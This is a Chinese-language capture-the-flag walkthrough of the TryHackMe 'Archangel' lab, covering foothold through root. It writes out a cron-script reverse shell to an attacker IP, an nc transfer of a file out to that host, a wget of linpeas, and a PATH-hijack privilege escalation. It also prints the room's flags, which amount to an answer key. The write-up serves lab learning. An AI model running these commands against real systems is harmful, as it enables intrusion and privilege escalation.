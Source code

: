 		- 成功接上
		- ![](https://i.imgur.com/JkQjkHV.png)
- 使用 python 讓 terminal 變漂亮
	- `
python3 -c 'import pty; pty.spawn("/bin/bash")'`

- 找 user flag
	- ![](https://i.imgur.com/voiBmAr.png)
	- `thm{lf1_t0_rc3_1s_tr1cky}`
- 找到使用者資料夾內有 passwordbackup
	- ![](https://i.imgur.com/LKIcTu2.png)
	- 幹...再一次
	- 等......等等，不會吧
	- 該不會那個網址真 TM 是他的密碼 ?__?
	- ![](https://i.imgur.com/rngMQwS.png)
		- 好的，好險不是
- 使用 Linpeas 掃
	- `wget 10.13.21.55:8000/linpeas.sh`
	- `bash linpeas.sh`
		- 找到一個可疑的 cron job
			- ![](https://i.imgur.com/9QYLgx9.png)
		- 發現 這個 cron 會使用 `archangel` 來執行，而且我們對 `/opt/helloworld.sh`有讀寫權限
		- ![](https://i.imgur.com/YYauluN.png)
		- 寫入 reverse shell
		- `echo "bash -c 'bash -i >& /dev/tcp/10.13.21.55/7878 0>&1'" >> /opt/helloworld.sh`
- 等待一分鐘後，自動接上!!
	- ![](https://i.imgur.com/ZQ4fZmN.png)
	- ![](https://i.imgur.com/D3bK7Rc.png)
	- 找到 flag
		- `thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}`
- 觀察使用者中的 secret 資料夾中
	- 有一個 backup 檔案有 suid
		- ![](https://i.imgur.com/omAJJqD.png)
- 透過 nc 把檔案傳出來
	- 監聽端 `nc -l -p 1234 > meow`
	- 發送端 `nc 10.13.21.55 1234 < backup`
- 哼!這種等級的 reverse，連 ida 都不用開，我們用 r2 就好ㄌ
	- `r2 meow`
	- `aaa`
	- `s main`
	- `VV`
	- ![](https://i.imgur.com/P6euu23.png)
	- 可以看到他會用 system call 一個 cp
	- 而 cp 沒有寫絕對路徑，所以可以用 path 進行誤導

## 誤導 path
- 在家目錄創一個 fakepath
	- `mkdir fakepath`
	- `export PATH=/home/archangel/fakepath:$PATH` 
- 準備一個假的 cp 檔案
	- `echo '#!/bin/bash' > cp`
	- `echo "/bin/bash" >> cp`
	- `chmod +x cp`
- 執行 backup
	- `./backup`
- 取得 root 權限 !!
	- ![](https://i.imgur.com/h6rVFzI.png)
		- `thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
`